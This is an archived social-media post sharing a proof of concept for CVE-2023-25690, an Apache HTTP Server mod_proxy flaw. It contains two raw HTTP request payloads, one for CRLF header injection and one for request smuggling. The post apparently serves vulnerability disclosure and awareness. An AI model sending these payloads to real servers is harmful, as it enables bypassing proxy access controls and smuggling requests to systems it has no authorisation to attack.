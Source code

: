 
# TodayCyberNews
**https://twitter.com/TodayCyberNews/status/1699289891518193936 _at 2023-09-06, 05:14:16_**
<blockquote>
⚠️ CVE-2023-25690 (  POC )

- Apache HTTP Server mod_proxy 

CLRF Injection
GET /categories/1%20HTTP/1.1%0d%0aFoo:%20baarr HTTP/1.1
Host: 

Header Injection
GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/SMUGGLED HTTP/1.1
Host: 1.1.1.1

GitHub URL :- https://t.co/F71FfNcDDh
</blockquote>

<table><tr>
<td><img src="pictures/64d48402ac81ec310938df2e06c7712393b4c300209ad02a59cb476212f44c7b.jpg" alt="64d48402ac81ec310938df2e06c7712393b4c300209ad02a59cb476212f44c7b.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>228</code></td>
<td>Favorites: <code>630</code></td>
</tr></table>

---